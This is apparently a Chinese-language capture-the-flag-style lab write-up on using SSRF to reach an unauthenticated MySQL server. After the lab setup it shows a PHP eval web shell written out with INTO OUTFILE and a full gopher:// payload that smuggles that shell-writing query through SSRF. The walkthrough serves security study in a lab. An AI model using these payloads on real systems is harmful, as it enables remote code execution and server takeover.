

# ssrf+mysql未授权

```
docker 安装
git clone https://github.com/ProbiusOfficial/ssrf-labs.git
cd ssrf-labs
docker-compose up -d
```

```
root@iZj6c7fb82q0r1fabjtxo8Z:~# docker exec -it 6031ef583b01  /bin/sh
mysql -uroot
SHOW GLOBAL VARIABLES LIKE 'secure_file_priv';   确定是允许写入的
```


开启写入

```
 vim /etc/mysql/my.cnf
```


```
SELECT '<?php @eval($_POST[cmd]);?>' INTO OUTFILE '/var/shell.php';   在数据库尝试是否可以写入
```


正常，尝试利用ssrf


```
url=http://172.72.23.29:3306?query=SHOW+DATABASES;    协议不同，乱码了
```


```
gopher://172.72.23.29:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%44%41%54%41%42%41%53%45%53%3b%01%00%00%00%01
```


构造payload



```
gopher://172.72.23.29:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%44%00%00%00%03%53%45%4c%45%43%54%20%27%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%73%68%65%6c%6c%2e%70%68%70%27%3b%01%00%00%00%01
```


没有报错，应该是写入成功了，直接进目录确认一下


这里连接会有点困难，因为ssrf和MySQL服务不在一个服务器

